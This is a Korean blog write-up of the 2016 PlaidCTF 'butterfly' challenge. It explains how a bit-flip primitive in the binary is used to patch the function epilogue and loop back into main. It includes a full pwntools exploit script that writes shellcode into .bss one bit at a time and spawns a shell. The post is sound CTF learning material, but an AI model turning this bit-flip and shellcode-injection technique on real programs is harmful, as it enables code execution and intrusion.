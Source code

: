 ```yaml
---
layout: post
title: "2016 PlaidCTF butterfly Write up"
excerpt: "bit flip을 이용한 참신한 문제"
date: 2020-05-025
categories: [system, ctf]
comments: true
---
```




연구실 과제를 하느라 ctf 문제풀이가 많이 밀렸다. 그래서 이번엔 전부터 풀어보고 싶었던 butterfly문제를 가져왔다. 뭔가 좀 참신한 느낌인 것 같다. 문제를 푸는데 다른 문제들보다 오래 걸린 것 같다.



binary :

![image-20200601134556720](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200601134556720.png)

stack canary가 적용되어 있으며, amd64 아키텍처이다. (페이로드에서 이거 설정안해서 계속 못풀었다.)

main.c :

![image-20200601134502573](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200601134502573.png)

코드를 보면 fgets로 50byte를 입력받고, strtol함수로 정수값으로 전환 > shift 연산자를 이용해서 v4의 마지막 3비트가 right shift된다. 그리고 mprotect가 있는데 처음에는 v7의 권한을 rwx로 주었다가 이후엔 r-x로 바꾼다. 

exploit vector : 

![image-20200601134855957](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200601134855957.png)

이 부분이 중요한 것 같다. 에필로그 부분인데 +216에서 add rsp,0x48을 수정하면 ret를 가지고 놀 것  같다. 

exploit :

```python
from pwn import *
 
context(arch="amd64")

p = process("./butterfly")
e = ELF("./butterfly")

tar_addr = 0x400860 + 3
tmp = (tar_addr << 3) + 6

p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))

def first(addr,data):
    for i in range(8):
        if data & (1 << i):
            tmp = (addr << 3) + i
            p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
            p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))
 
def write(where,pay):
    for a,b in enumerate(pay):
	first(where + a, u8(b))
 
write(e.bss(100),asm(shellcraft.sh()))

p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
p.sendline(str(e.bss(99) << 3).ljust(40) + p64(e.bss(100)))

p.clean()

p.interactive()

```

문제를 풀고나서 여러가지 풀이들을 봤는데 _libc_csu_init을 이용한 풀이도 재미있을 것 같다. 다시 한번 복습해볼만한 문제였던 것 같다. (난 아직 초보라 다시 봐야한다.)

